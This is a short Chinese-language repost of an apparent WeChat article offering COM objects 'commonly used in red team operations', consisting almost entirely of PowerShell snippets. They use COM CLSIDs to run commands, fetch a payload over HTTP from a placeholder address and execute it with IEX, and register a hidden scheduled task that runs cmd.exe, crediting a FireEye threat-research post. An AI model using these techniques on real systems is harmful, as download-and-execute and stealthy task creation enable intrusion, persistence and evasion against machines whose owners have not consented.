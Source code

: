 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0pvgWjkjAu_-cHWOzx7YKA)

分享红队行动中常用的 Com 组件，效果自测，绝对好用。

```
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E"))
$handle.CommandLine = "cmd /c whoami"
$handle.Start([ref]$True)
```

```
$o = [activator]::CreateInstance([type]::GetTypeFromCLSID("F5078F35-C551-11D3-89B9-0000F81FE221")); $o.Open("GET", "http://127.0.0.1/payload", $False); $o.Send(); IEX $o.responseText;
```

```
$TaskName = [Guid]::NewGuid().ToString()
$Instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Schedule.Service"))
$Instance.Connect()
$Folder = $Instance.GetFolder("\")
$Task = $Instance.NewTask(0)
$Trigger = $Task.triggers.Create(0)
$Trigger.StartBoundary = Convert-Date -Date ((Get-Date).addSeconds($Delay))
$Trigger.EndBoundary = Convert-Date -Date ((Get-Date).addSeconds($Delay + 120))
$Trigger.ExecutionTimelimit = "PT5M"
$Trigger.Enabled = $True
$Trigger.Id = $Taskname
$Action = $Task.Actions.Create(0)
$Action.Path = “cmd.exe”
$Action.Arguments = “/c whoami”
$Action.HideAppWindow = $True
$Folder.RegisterTaskDefinition($TaskName, $Task, 6, "", "", 3)

function Convert-Date {       

        param(
             [datetime]$Date

        )       

        PROCESS {
               $Date.Touniversaltime().tostring("u") -replace " ","T"
        }
}
```

from：https://www.fireeye.com/blog/threat-research/2019/06/hunting-com-objects.html